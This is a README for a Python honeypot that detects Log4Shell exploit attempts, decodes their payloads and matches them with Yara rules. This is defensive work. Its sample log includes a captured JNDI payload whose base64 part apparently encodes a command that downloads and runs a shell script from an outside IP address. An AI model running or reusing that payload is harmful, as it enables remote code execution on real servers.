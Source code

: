 # log4j_catcher

Log4j exploit catcher, detect Log4Shell exploits and try to get payloads.
This is a basic python server that listen on a port and logs information when a wild log4j exploit appears

The [Phorcys](https://github.com/PiRanhaLysis/Phorcys) dependency is used to decode payload automatically and then match with Yara rules.

## Installation

### Dependancies

```shell
sudo apt install libcurl4-nss-dev libpython3.9-dev libnss3 libnss3-dev
```

```shell
pip install -r requirements.txt
```

## Running

For ports that don't require TLS
```shell
python3 detector.py [port]
```

For services with TLS it is recommended to have another component to handle the TLS protocol.
I typically run NGINX as a reverse proxy on the port 443 to forward https traffic to the honeypot.

Example:
```shell
$ sudo python3 detector.py 80
2021-12-10 23:39:59,951 INFO:Incoming connection from ('1.2.3.4', 51512)  
2021-12-10 23:40:28,997 INFO:Incoming connection from ('1.2.3.4', 37532)   
2021-12-11 03:53:36,729 INFO:Found payload jndi from ('45.137.21.9', 55378)                        
2021-12-11 03:53:36,729 INFO:URL: 45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==
```

Data is logged into current directory path.
